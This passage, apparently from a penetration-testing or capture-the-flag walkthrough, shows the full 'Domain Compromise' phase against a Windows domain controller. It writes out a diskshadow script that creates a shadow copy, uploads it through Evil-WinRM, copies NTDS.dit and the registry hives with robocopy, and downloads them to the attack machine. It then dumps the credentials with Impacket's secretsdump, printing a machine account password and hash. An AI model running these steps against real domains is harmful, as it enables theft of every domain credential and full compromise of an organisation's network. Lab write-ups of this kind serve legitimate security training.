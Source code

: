 To extract the `NTDS.dit` file (Active Directory database), we need to create a shadow copy since the file is locked at runtime and during normal operation. Let’s create a file called `backup.txt` on Kali and paste in the following set of commands:

```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Upload the script using `Evil-WinRM`.

```
upload backup.txt
```

Execute the script by using the `diskshadow` Windows utility.

```
diskshadow /s backup.txt
```

### Extracting Critical System Files

Now we can copy the `NTDS.dit` file and registry hives from the shadow copy.

```
robocopy /b E:\Windows\ntds . NTDS.dit
robocopy /b E:\Windows\System32\config . SYSTEM
robocopy /b E:\Windows\System32\config . SECURITY
```

The we must download the files to our attack machine.

```bash
download NTDS.dit
download SYSTEM
download SECURITY
```

---

# Phase 7: Domain Compromise

### Dumping Domain Credentials

Use Impacket's secretsdump.py to extract offline all domain hashes from the `NTDS.dit` database.

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:cdd6e1d3682ea536a16a4d3762292dd6ef26e8f9ad68163330920d74f5eed8f4ad092bfd71436cff754540922210cbcdd547ebb2399de2dc595357ac9848cb5addbb48a3042ba84d5d5bb5ff6167da1f082ea27deaa03b962d3297e0819361894e63b4d9ed81e7eaa87b7357bed0912b87e338eb0f9490720b8f76617b977581547d36d773b16949abbe1313b866ded07a8ae241a7086f06bd3cb1cdf74801e65f8337b5e73ad8fdad88b4edd75b994b8d537ab11f5ec0a38d6f719f26310c1151ba6bc6069b655ee3f3b5ca8cdcc42ce69d9d8c09057e6b5ca8fccf1d0038945de25a5e247434743697c8e25b1fb630
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:36d9679dabe25509acf94aa77a2c17d3
```